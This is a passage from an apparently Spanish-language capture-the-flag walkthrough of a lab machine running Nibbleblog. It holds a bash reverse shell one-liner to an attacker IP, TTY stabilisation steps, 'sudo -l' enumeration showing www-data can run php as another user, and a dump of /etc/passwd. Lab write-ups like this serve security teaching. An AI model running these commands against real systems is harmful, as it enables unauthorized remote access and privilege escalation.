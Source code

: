 En la terminal del primer NETCAT escribimos entonces:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"  <=== Tipica
```
Y ahora si, ya tenemos la conexion estabilizada en nuestra nueva terminal. El resto ya se podrian cerrar para quedarnos unicamente con esta ultima activa.

Es momento ahora de hacer el tratamiento de la TTY, por lo que seguiremos estos pasos:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@c306b3822817:/var/www/html$ 
```
Es momento ahora de hacer un "cd /" para ir al directorio raiz:
```
www-data@53305a206d4f:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /

www-data@53305a206d4f:/$ ls
bin   dev  home  lib32	libx32	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 lib64	media	opt  root  sbin  sys  usr

www-data@53305a206d4f:/$ whoami
www-data

www-data@53305a206d4f:/$ 

```
Bien, en principio solo quedaria la escalada de privilegios, por lo que empezaremos poniendo "sudo -l" para ver si hay suerte, y vemos lo siguiente:
```
www-data@53305a206d4f:/$ sudo -l

Matching Defaults entries for www-data on 53305a206d4f:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 53305a206d4f:
    (chocolate) NOPASSWD: /usr/bin/php
    
www-data@53305a206d4f:/$ 

```
Hay un usuario que se llama "chocolate" que puede ejecutar el binario "/usr/bin/php".

Antes de seguir y ya que estamos, hacemos "cat /etc/passwd" para ver si hay mas usuarios, pero vemos que no:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```